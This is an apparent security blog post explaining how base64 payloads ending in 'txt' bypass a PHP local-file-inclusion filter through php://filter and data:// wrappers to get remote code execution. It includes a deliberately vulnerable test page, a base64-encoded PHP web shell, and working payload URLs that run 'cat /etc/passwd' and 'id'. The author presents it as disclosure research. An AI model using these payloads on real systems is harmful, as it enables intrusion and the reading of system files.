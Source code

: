 ```yaml
---
id: 299
title: 'One LFI bypass to rule them all (using base64)'
date: '2023-07-20T06:51:37+00:00'
author: matan.honig2@gmail.com
guid: 'https://matan-h.com/?p=299'
permalink: /one-lfi-bypass-to-rule-them-all-using-base64/
image: /assets/images/PHP-filter-etc-passwd-example-com.png
categories:
    - cyber
tags:
    - base64
    - cyber
    - php
    - php-filter
---
```


## Backstory:

  
On one of the \[real world\] PHP websites, I found an [LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion) \[there was a URL parameter that checked if the value ends with ‘txt’. If so, it would just display it\]. So, I reported to the site owner that I have a RCE using PHP filters (using `php://filter/convert.quoted-printable-encode/resource=data:text/plain`,`phpcode`, because HTTP was already blocked) to the owner, and he decided to just block PHP start (&lt;?php) and end (?&gt;) tags. So now, how can I bypass this block (no file upload on this server)?

The solution according to the book is to simply use [PHP filter chain](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters). But… I don’t really like this way of exploitation – it makes the exploit very long, and it’s completely unreadable. So let’s imagine the site URL has a length filter, or it blocks the pipe char. There must be another way to do this, right?

Basically, what PHP filter chain does is to collect characters for a Base64 string ([using PHP filter group](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) called `convert.iconv`) then base64 decode it. Maybe I could just supply the base64 and then decode it, without collecting the base64 string?

For that, I need a base64 string that’s ending with “.txt”. When I asked the Cyber king of misleading information, it gave me this:

<div class="wp-block-image"><figure class="aligncenter size-full is-resized">![chatgpt answer: "just append .txt to the base64 encoded string"](/assets/images/chatgpt-asked-about-b64-endswith.png)<figcaption class="wp-element-caption">ChatGPT, when asked about creating a base64 that ends with “.txt”</figcaption></figure></div>At first glance, this seems completely unhelpful. You can’t just add “.txt” and hope it stays base64. But a little research revealed that PHP works differently.

## Update: Create test site

Let’s create our vulnerable PHP test website: (credit for the [template](https://github.com/computer-engineer/WhiteboxPentest/blob/main/Vulnerable%20Code%20Examples/php/lfi.php) to **[WhiteboxPentest](https://github.com/computer-engineer/WhiteboxPentest)** on GitHub).

[truff](https://hackerone.com/truff) from [Projet7](https://www.projet7.org/) did some research, and he found that my exploit works only with `include` or `require` and not with ``file_get_contents``. Additionally, it requires the website to be configured with `allow_url_include:On`.

```
<pre class="wp-block-code" title="vulnerable.php">```php
<body style="background-color:#82e2ff">
    <form method="GET">
        <label>Select Timezone</label>
        <select name="file">
            <option value="america.txt">America/New_York</option>
            <option value="asia.txt">Asia/Singapore</option>
        </select>
        <input type="submit" value="Display time"/>
    </form>

    <?php
    if(isset($_GET['file'])) {
        $file = $_GET['file'];

        // Check if the file starts with "http"
        if (strpos($file, "http") === 0) {
            echo "Files starting with 'http' are not allowed.";
        } else {
            if (strpos($file, "<?php") !== false || strpos($file, "?>") !== false || strpos($file, "|") !== false) {
                echo "blocked";
                echo (strpos($file, "|") !== false) ? " (php tag)" : " (pipe character)";
            } else {
                if (substr($file, -3) === "txt") {
                    include($file);
                } else {
                    echo "the file " . htmlentities($file) . " is not a txt file";
                }
            }

            echo "<br><br>the base64 decode was:<br>";
            echo htmlentities(base64_decode(explode(",", $file)[1]));
            echo "";
        }
    }
    ?>
</body>

```
```

You need also to [find php.ini](https://tecadmin.net/where-is-php-ini/), and change `allow_url_include` from `Off` to `On`. Now you are ready for research: You can start the server and start to explore PHP’s base64 decode filter

```
<pre class="wp-block-code">```bash
php -S 0.0.0.0:2000
```
```

Now go to <http://0.0.0.0:2000/vulnerable.php?file=php://filter/convert.base64-decode/resource=data://plain/text,SGVsbG8sIFdvcmxkLg>. (that should just output “the file … is not a txt file'”

- - - - - -

Now, you can pause reading this article and try to run code yourself.

- - - - - -

### Details

PHP has a unique way of handling base64 using the `convert.base64-decode` filter. It just ignores non-base64 characters. That means that if I try to decode this base64 string: “<mark class="has-inline-color has-vivid-red-color" style="background-color:rgba(0, 0, 0, 0)">bWF0YW4ta</mark><mark class="has-inline-color has-vivid-green-cyan-color" style="background-color:rgba(0, 0, 0, 0)">&amp;&amp;</mark><mark class="has-inline-color has-vivid-red-color" style="background-color:rgba(0, 0, 0, 0)">C5j</mark><mark class="has-inline-color has-vivid-green-cyan-color" style="background-color:rgba(0, 0, 0, 0)">\#</mark><mark class="has-inline-color has-vivid-red-color" style="background-color:rgba(0, 0, 0, 0)">b20K</mark><mark class="has-inline-color has-vivid-green-cyan-color" style="background-color:rgba(0, 0, 0, 0)">….?</mark><mark class="has-inline-color has-vivid-red-color" style="background-color:rgba(0, 0, 0, 0)">PHP=</mark>“, the PHP will just ignore all non-base64 characters, and decode it like it was: “<mark class="has-inline-color has-vivid-red-color" style="background-color:rgba(0, 0, 0, 0)">bWF0YW4taC5jb20K`PHP=`</mark>” (decoded to be “matan-h.com&lt;s”).

If I took a more useful example from [hacktricks](https://book.hacktricks.xyz/welcome/readme) : let’s try “<mark class="has-inline-color has-vivid-red-color" style="background-color:rgba(0, 0, 0, 0)">PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=</mark>” (which means “&lt;?php system($\_GET\[‘cmd’\]);echo ‘Shell done !’; ?&gt;”) and let’s try to make this end with “.txt” and still get a valid base64 without the dot. Turns out this is very easy : all I needed to do was to remove the padding (the `=` sign at the end) and replace it with “.txt” (you could also use other extensions such as .php, etc. as long as they can be in base64). To make the base64 more human-readable, let’s add a plus before the extension. It does not do much in the way of PHP decode base64, but if we try to decode the extension with `base64` in bash (without the “.”), it will be happy. So we get the first RCE payload:

<mark class="has-inline-color has-light-green-cyan-color" style="background-color:rgba(0, 0, 0, 0)">`?cmd=cat%20/etc/passwd`&amp;file=</mark>`<mark class="has-inline-color has-vivid-green-cyan-color" style="background-color:rgba(0, 0, 0, 0)">PHP://filter/convert.base64-decode/resource=data://plain/text,</mark><mark class="has-inline-color has-vivid-red-color" style="background-color:rgba(0, 0, 0, 0)">PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4</mark><mark class="has-inline-color has-vivid-cyan-blue-color" style="background-color:rgba(0, 0, 0, 0)">+.txt</mark>`

<div class="wp-block-image"><figure class="aligncenter size-large">![](/assets/images/PHP-filter-etc-passwd-example-com-1024x632.png)<figcaption class="wp-element-caption">Screenshot of the start of /etc/passwd of that site using PHP://base64-decode filter</figcaption></figure></div>I reported this to the owner, and he decided to just block `php://` protocol (all cases).

But the LFI was also open to the data:// protocol. In normal cases, data:// is used for plain text like this: `data://text/plain,<?php phpinfo();?>`, but data:// can also be used to decode base64. Using `data://text/plain;base64`. But this time, `data:` does not ignore non-base64 characters. Are we sure we really need them?

Apparently, the server only implements the check if the file ends with “<mark class="has-inline-color has-vivid-cyan-blue-color" style="background-color:rgba(0, 0, 0, 0)">txt</mark>“(without dot). Not with “<mark class="has-inline-color has-vivid-red-color" style="background-color:rgba(0, 0, 0, 0)">.</mark><mark class="has-inline-color has-vivid-cyan-blue-color" style="background-color:rgba(0, 0, 0, 0)">txt</mark>” (with dot). That means, I could just take the previous payload, remove the “.” and throw this into the `data` protocol and get the second RCE payload (for some reason, I could decode this only using PHP. Python or bash \[using GNU base64\] required me to add an equal sign after the “txt” to complete the padding.):

`<mark class="has-inline-color has-light-green-cyan-color" style="background-color:rgba(0, 0, 0, 0)">?cmd=id&file=</mark><mark class="has-inline-color has-vivid-green-cyan-color" style="background-color:rgba(0, 0, 0, 0)">data://text/plain;base64,</mark><mark class="has-inline-color has-vivid-red-color" style="background-color:rgba(0, 0, 0, 0)">PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4</mark><mark class="has-inline-color has-vivid-cyan-blue-color" style="background-color:rgba(0, 0, 0, 0)">+txt</mark>`

<div class="wp-block-image"><figure class="aligncenter size-large">![](/assets/images/data-payload-id-example-com-1024x560.png)<figcaption class="wp-element-caption">Screenshot of the output of the command “id” of that site using the `data://` protocol</figcaption></figure></div>I didn’t find this trick on Google. So I posted it here. I hope that this post informed you

Disclaimer: This article is intended for educational and informational purposes only and should not be used for any illegal or malicious activities.

</body>